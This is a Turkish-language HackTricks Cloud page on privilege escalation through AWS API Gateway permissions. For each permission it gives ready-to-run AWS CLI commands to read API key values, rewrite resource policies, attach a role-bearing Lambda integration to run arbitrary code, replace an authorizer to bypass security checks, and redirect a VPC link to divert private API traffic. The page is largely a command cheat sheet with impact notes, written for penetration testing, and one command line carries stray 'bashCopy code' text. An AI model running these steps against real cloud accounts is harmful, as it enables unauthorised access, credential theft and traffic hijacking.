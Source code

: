 # AWS - Apigateway Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Apigateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Bu izinle, yapılandırılmış API'lerin (bölge başına) API anahtarlarını oluşturabilirsiniz.
```bash
aws --region <region> apigateway create-api-key
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:GET`

Bu izinle, yapılandırılan API'lerin (bölge başına) oluşturulan API anahtarlarını alabilirsiniz.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ama hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle, bir API'nin kaynak politikasını değiştirerek kendinize erişim verme ve API geçidinin sahip olabileceği potansiyel erişimi kötüye kullanma (örneğin, savunmasız bir lambda'yı çağırma) mümkün hale gelir. 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Olası Etki:** Genellikle, bu teknikle doğrudan privesc yapamayacaksınız, ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **IAM rolü eklenmiş bir Lambda fonksiyonu ile mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda fonksiyonunu tetikleyerek rastgele kod çalıştırabilir ve potansiyel olarak IAM rolü ile ilişkili kaynaklara erişim kazanabilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Lambda fonksiyonunun IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway yetkilisini değiştirebilir** ve güvenlik kontrollerini atlayabilir veya API istekleri yapıldığında rastgele kod çalıştırabilir.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Güvenlik kontrollerinin atlanması, API kaynaklarına yetkisiz erişim.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını farklı bir Ağ Yük Dengeleyicisine işaret edecek şekilde değiştirebilir, bu da özel API trafiğini yetkisiz veya kötü niyetli kaynaklara yönlendirebilir**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potansiyel Etki**: Özel API kaynaklarına yetkisiz erişim, API trafiğinin kesilmesi veya kesintiye uğraması.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

